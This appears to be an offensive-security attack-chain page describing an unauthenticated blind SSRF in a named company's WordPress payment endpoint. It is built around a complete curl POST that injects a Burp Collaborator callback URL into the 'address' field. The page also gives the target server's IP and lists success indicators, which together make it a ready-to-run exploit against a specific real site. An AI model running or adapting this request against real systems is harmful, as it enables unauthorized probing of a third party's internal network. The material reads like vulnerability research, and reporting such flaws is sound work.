

# Blind SSRF Exploitation via WordPress Admin-Ajax Payment Endpoint

Multi-stage attack chain demonstrating a complete attack workflow for exploiting blind SSRF in a WordPress site's payment creation process.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~2 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Collaborator]]

### Target Environment

- Web platform with WordPress and PHP
- Accessible admin-ajax.php endpoint
- No authentication required

### Initial Access Requirements

- Public network access to https://cz.acronis.com
- No credentials needed (unauthenticated)

## Detailed Attack Procedures

### Step 1: Trigger Blind SSRF via Payment Creation

procedure: [[procedures/Exploit-Blind-SSRF-in-WordPress-Payment-Creation]]

**Objective**: Force the server to make an outbound HTTP request to an attacker-controlled URL, confirming the SSRF vulnerability without direct response visibility.

**Instructions**: Prepare a Burp Collaborator payload URL and inject it into the 'address' parameter of a POST request to the createPayment action. Use [[commands/curl-wordpress-ssrf-exploit]] to send the request:

```bash
curl -X POST https://cz.acronis.com/wp-admin/admin-ajax.php \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36" \
  -d "items[0][name]=Acronis+Disk+Director+12.5+Home+1+PC&items[0][price]=1056&items[0][formattedPrice]=1056.00k%C4%8D&totalSurcharge=1056&addItem=undefined&removeItem=undefined&recalculate=undefined&name=Jmone&isCompany=YES&notifier_x-iscompany=NO&undefined=false&deliveryClearKatakana=true&company=&surname=Pifsf&deliveryClearRomanized=true&address=http%3A%2F%2Fjczo7ewu8jpfgyiajmkacspsnjtbh0.burpcollaborator.net%2Fssrf&zip=25458&city=sdfasd&ico=&dic=&email=test%40fgmail.com&phone=%2B420+724+023+780&newsletter=false&notifier_x-newsletter=NO&action=createPayment"
```

Monitor the Burp Collaborator for incoming connections from the server IP (109.123.216.85) to validate the SSRF.

**Expected Output**: JSON response like {"status":"ok","gw_url":"https:\/\/gate.gopay.cz\/gw\/v3\/eec2d2792d0935ea959b71b0762a4559"}, but success is confirmed via Collaborator callback.

**Success Indicators**:
- Outbound HTTP connection received in Burp Collaborator
- Server IP 109.123.216.85 contacts the payload URL

## Attack Chain Summary

### Key Achievements

1. Confirmed blind SSRF without direct response leakage
2. Enabled potential for internal network scanning or amplification attacks
3. Demonstrated unauthenticated exploitation of the payment endpoint

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T12:00:00Z*
